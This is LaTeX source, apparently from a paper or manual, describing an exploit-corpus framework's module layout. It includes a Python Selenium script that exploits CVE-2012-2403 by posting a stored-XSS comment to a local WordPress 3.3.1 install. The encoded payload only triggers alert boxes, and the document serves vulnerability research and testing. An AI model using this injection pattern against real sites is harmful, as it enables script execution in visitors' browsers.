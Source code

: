 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
\subsection{Target Module}

   The {\bf Targets} module has as submodules each application and application plugin that are associated with an exploit.
\textcolor{red}{The anatomy of a ``Target'' module}

\subsection{Exploit}
 {\bf Exploit} is the superclass for each exploit in the corpus, defining interfaces and attributes that the engine uses to manage the environment and exploitation.


Management actions, recording commands
attributes,
\begin{verbatim} 
__init__()
exploit()
check() [not yet]
cleanup()
\end{verbatim}

{\tt \small
\begin{figure}[!ht]
\begin{verbatim}
import corpus

class Exploit (corpus.Exploit):

    def __init__(self):
        corpus.Exploit.__init__(self, {
                'Name' :        "CVE_2012_2403",
                'Description' : "Creates a post containing a XSS payload.",
                'References' :  [['CVE','2012-2403'],
                                 ['OSVDB','81463']],
                'Target' :      "Wordpress 3.3.1",
                'Type' :        "XSS",
                'VulWikiPage' : "http://seamster.cs.umd.edu/CVE-2012-2403"
                })
        return
            
    def exploit(self):

        payload = "<a href=\"#\" title=\"XSS http://example.com/onmouseover"
                  "=eval(unescape(/%61%6c%65%72%74%28%31%29%3b%61%6c%65%72"
                  "%74%28%32%29%3b%61%6c%65%72%74%28%33%29%3b/.source))//\"
                  ">XSS</a>"

        driver = self.create_selenium_driver()
        driver.get("http://localhost/wordpress/?p=1")
        driver.find_element_by_id("author").clear()
        driver.find_element_by_id("author").send_keys("selenium script")
        driver.find_element_by_id("email").clear()
        driver.find_element_by_id("email").send_keys("selenium@python.org")
        driver.find_element_by_id("url").clear()
        driver.find_element_by_id("url").send_keys("www.python.org")
        driver.find_element_by_id("comment").clear()
        driver.find_element_by_id("comment").send_keys(payload)
        driver.find_element_by_id("submit").click()
        driver.cleanup()

        return

if __name__ == "__main__": # Exploit invoked from command-line
    engine = corpus.Engine(Exploit())
    engine.parse_args(sys.argv)
\end{verbatim}
\end{figure}
}
\end{document}
